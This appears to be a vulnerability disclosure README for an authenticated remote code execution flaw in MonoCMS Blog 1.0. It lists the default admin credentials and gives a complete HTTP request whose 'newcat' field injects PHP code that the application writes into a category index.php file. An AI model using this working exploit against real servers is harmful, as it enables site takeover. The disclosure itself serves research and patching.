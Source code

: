 # MonoCMS Blog 1.0_remote_code_execution

## Detail:
At monofiles```/category.php:27```, user input was saved to category/[foldername]/index.php causing RCE.

![image](https://github.com/fortest-1/vuln/blob/main/MonoCMS%20Blog/img/3.png?raw=true)




## POC:
My env
MonoCMS Blog 1.0
php 5.6.9
Windows

category rce 
At monofiles/category.php:27, user input was saved to category/[foldername]/index.php causing RCE.

First Step:
Login to your account(default:admin/1234) 

Send an request:
```
POST /monofiles/category.php HTTP/1.1
Host: 172.16.105.29
Content-Length: 68
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.16.105.29
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.16.105.29/monofiles/category
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: MON=r1u4c0k2mv2c222linpoma712m
Connection: close

newcat=test";phpinfo();exit();//&foldername=test
```


Visit ```/category/test/index``` to successfully execute the code
![image](https://github.com/fortest-1/vuln/blob/main/MonoCMS%20Blog/img/1.png?raw=true)
![image](https://github.com/fortest-1/vuln/blob/main/MonoCMS%20Blog/img/2.png?raw=true)



 

 



 

